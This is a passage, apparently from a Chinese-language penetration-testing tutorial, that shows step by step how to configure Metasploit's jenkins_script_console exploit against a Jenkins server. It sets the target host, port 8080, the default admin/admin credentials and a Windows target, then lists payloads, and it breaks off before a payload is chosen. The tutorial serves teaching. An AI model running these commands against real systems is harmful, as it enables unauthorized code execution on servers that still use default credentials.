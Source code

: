 ![](img/6fa513aa-0421-4b58-9913-1d1737280445.jpg)

我们将看到一些与 Jenkins 相关的模块。

3.  我们将在本例中使用`jenkins_script_console`漏洞。发出以下命令：

```
use exploit/multi/http/jenkins_script_console
```

4.  让我们设置漏洞攻击并配置目标服务器。逐个发出以下命令：

```
set RHOSTS <<IP Address>>
set RPORT 8080
set USERNAME admin
set PASSWORD admin
set TARGETURI /
set target 0
```

`target 0`表示这是一台 Windows 机器。

5.  要查看所有可用有效载荷的列表，请发出以下命令：

```
show payloads
```

将列出所有有效载荷的列表供我们阅读：

![](img/24bf09e8-22df-4bfd-8210-d987c81d7698.jpg)
